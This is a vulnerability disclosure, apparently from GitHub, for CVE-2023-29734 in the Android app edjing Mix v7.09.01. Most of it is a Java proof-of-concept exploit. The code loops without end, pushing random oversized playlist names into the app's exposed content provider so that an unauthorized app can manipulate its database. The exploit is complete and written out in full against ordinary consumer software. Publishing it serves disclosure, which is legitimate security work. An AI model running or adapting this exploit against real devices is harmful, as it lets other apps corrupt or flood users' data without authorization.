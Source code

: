 ## Escalation of Privileges exists in edjing Mix（CVE-2023-29734）

Vendor：MWM(http://www.edjing.com/)

Affected product：edjing Mix(com.edjing.edjingdjturntable)

Version：7.09.01

Download link：https://play.google.com/store/apps/details?id=com.edjing.edjingdjturntable

Description of the vulnerability for use in the CVE：An issue found in edjing Mix v.7.09.01 for Android allows unauthorized apps to cause escalation of privilege attacks by manipulating the database.



poc：

```java
public void attack(){
    while (true) {
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        String randomString =getRandomString(52);
        String randomString2 =getRandomString(5120);
        Uri uri = Uri.parse("content://com.edjing.edjingdjturntable/playlist");
        ContentValues contentValues = new ContentValues();
        contentValues.put("playlist_id",3);
        contentValues.put("playlist_date_modified",1314234);
        contentValues.put("playlist_date_added",123456);
        contentValues.put("playlist_state",0);
        contentValues.put("playlist_name",randomString2);
        contentResolver.update(uri,contentValues,null,null);
    }
}

public static String getRandomString(int length) {
        String str = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
        Random random = new Random();
        StringBuffer sb = new StringBuffer();
        for (int i = 0; i < length; i++) {
            int number = random.nextInt(62);
            sb.append(str.charAt(number));
        }
        return sb.toString();
}
```



